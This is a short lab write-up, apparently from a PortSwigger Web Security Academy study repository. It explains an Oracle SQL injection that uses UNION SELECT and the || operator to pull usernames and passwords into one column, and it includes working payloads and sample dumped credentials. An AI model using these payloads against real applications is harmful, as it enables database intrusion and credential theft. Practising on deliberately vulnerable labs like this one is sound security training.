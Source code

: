 # Retrieving multiple values within a single column

For example, on Oracle you could submit the input:
```bash
' UNION SELECT username || '~' || password FROM users--
```
This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle.
The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character.

The results from the query contain all the usernames and passwords, for example:
```bash
administrator~s3cure
wiener~peter
carlos~montoya
```
## Lab
**Task**: Dump password and users from databases.<br>

**Solution**: After finding number of columns using  `union select` attack
I used this payload:<br>
`'UNION SELECT NULL,username||'~'||password FROM users--`


https://github.com/offensivecyber03/PortSwigger/assets/71892943/8201f6b3-9105-4c71-83b5-1963fe7dcf4e


